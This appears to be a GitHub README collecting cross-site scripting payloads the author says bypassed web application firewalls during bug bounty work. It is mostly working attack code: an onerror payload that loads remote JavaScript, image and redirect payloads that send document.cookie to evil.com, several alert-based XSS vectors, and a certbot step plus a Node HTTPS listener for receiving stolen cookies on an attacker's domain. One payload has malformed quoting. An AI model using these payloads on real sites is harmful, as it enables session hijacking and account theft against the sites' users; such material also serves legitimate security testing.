 # AwsomeXSS
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://basedygt.github.io/xss.js'; document.head.appendChild(script);">
```

2. **Data Exfiltration through Image Source (when CSP is disabled):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

Vulnerable when

- Absence of Content-Security-Policy header in the response
- Presence of Content-Security-Policy header with a value of `default-src` or `none`

3. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

4. **SVG XSS:**

```html
<svg/onload=alert(document.domain)>
```

5. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

6. **JavaScript Protocol Handler:**
   
```html
<a href="javascript:alert('XSS')">Click Me</a>
```


### Cookie Stealer Example:

`GET` based interception

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```

`POST` based interception:

1. Get ssl certitficates for your malicious domain: `sudo certbot certonly --standalone -d domain.tld`
2. Setup the listener with ssl certificates

```node
const https = require('https');
const fs = require('fs');

// Load the certificate and key
const cert = fs.readFileSync('cert.pem');
const key = fs.readFileSync('privkey.pem');

// Create the HTTPS server
const server = https.createServer({ cert, key }, (req, res) => {
  if (req.method === 'POST') {
    let data = '';
    req.on('data', (chunk) => {
      data += chunk;
    });
    req.on('end', () => {
      console.log(`Received data: ${data}`);
      res.writeHead(200, { 'Content-Type': 'text/plain' });
      res.end('Data received successfully!');
    });
  } else {
    res.writeHead(405, { 'Content-Type': 'text/plain' });
    res.end('Method not allowed!');
  }
});

// Listen on port 8080
server.listen(8080, () => {
  console.log('Server listening on port 8080');
});
```

